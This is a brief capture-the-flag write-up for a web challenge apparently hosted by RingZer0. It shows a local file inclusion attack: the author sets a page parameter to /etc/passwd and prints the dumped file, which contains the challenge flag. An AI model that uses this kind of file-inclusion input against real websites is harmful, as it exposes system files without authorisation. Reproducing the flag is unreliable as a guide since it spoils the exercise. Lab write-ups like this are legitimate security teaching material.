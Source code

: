 # Looking for password file

__SOLUTION__

After you load the website in the URL you'll see that `http://challenges.ringzer0team.com:10075/?page=lorem.php` there is variable that takes lorem.php as input that is why we are seeing `Lorem ipsum` stuff.
So I changed that file name to `password` but nothing.

But after that I realized that password file is `/etc/passwd` i.e pace where linux stores it password file. I try that and I  get

```

About Us

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:FLAG-zH9g1934v774Y7Zx5s16t5ym8Z:/nonexistent:/usr/sbin/nologin libuuid:x:100:101::/var/lib/libuuid: sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin syslog:x:102:105::/home/syslog:/bin/false

```

FLAG - `FLAG-zH9g1934v774Y7Zx5s16t5ym8Z`
